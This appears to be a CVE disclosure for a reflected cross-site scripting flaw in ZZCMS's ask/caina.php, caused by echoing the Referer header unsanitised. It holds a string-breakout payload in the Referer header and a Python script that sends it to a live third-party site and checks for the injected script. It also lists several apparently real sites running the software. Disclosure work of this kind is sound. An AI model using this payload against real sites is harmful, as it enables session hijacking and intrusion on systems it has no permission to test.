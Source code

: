 # ZZCMS 2023 反射型XSS ask/caina.php

## CVE-ID

CVE-2024-44818

## Vulnerability type 

Cross Site Scripting (XSS)

## Vendor of the product(s) 

http://www.zzcms.net/about/download.html
## Affected product(s)/code base 

## Product	* Version	

ZZCMS
<=2023(latest)

## Optional

Has vendor confirmed or acknowledged the vulnerability? No

## Attack type 

Remote

Information Disclosure

## Affected component(s)

```
File: ask/caina.php
Line: 21
Vulnerable Code:
showmsg('采纳成功',$_SERVER['HTTP_REFERER']);
```



## Attack vector(s)

```
Type: Reflected Cross-Site Scripting (XSS)
Exploit: An attacker can craft a malicious URL that includes a specially crafted Referer header. When a victim clicks on this URL, the malicious script embedded in the Referer header will be executed in the context of the victim's browser.

Payload:http://127.0.0.3/ask/caina.php Post:name=还好&yzm=31&tel=18188888888  

Referer:baidu.com";alert(1);parent.location="
```



## Suggested description of the vulnerability for use in the CVE

```
A reflected cross-site scripting (XSS) vulnerability exists in ask/caina.php at line 21. The application directly inserts the value of the HTTP_REFERER header into the HTML response without proper sanitization. An attacker can exploit this vulnerability by tricking a user into visiting a specially crafted URL, which includes a malicious Referer header. This can lead to the execution of arbitrary JavaScript code in the context of the victim's browser, potentially resulting in session hijacking, defacement, or other malicious activities.
```



## Discoverer(s)/Credits 

GKDf1sh



## Reference(s) 

```
https://demo.zzcms.com
https://www.88zsw.com
http://www.818yyzs.com
https://www.qibai.cc
http://www.weixumu.cn
http://www.eshouyao.com
http://www.66988.tv/
http://www.dl580.tv/
```



## Additional information

```python
You can use hackbar to add header Referer: baidu.com";alert(1);parent.location=" ,or use python below

import requests

url = "https://www.88zsw.com/user/login.php"

headers = {
    "Referer": 'baidu.com";alert(1);parent.location="'
}

response = requests.get(url, headers=headers)

print(response.text)

if "alert(1)" in response.text:
    print("XSS yes")
```

